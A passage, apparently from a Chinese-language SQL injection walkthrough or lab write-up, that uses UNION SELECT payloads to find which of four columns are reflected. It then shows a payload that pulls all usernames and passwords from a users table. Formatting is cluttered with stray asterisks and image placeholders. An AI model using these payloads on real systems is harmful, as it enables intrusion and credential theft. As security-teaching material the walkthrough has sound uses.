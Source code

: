 *****这意味着在数据库中只有 4 列*****

*****让我们检查一下有多少列容易受到攻击，为此我们使用了 **UNION SELECT*******

```
***') union select 1,2,3,4-- -***
```

*****![](img/bcf79d43565a5a7979889a348c08b01e.png)*****

*****查询显示第 3 列是易受攻击的 **{2，3，4}** 位置*****

*****让我们从数据库中获取信息*****

*****如果你了解 mysql，你可以很容易理解这个查询*****

```
***') union select 1,group_concat(username),group_concat(password),4 from users-- -***
```

*****![](img/3b215fc051881e62e75a11387455c877.png)*****

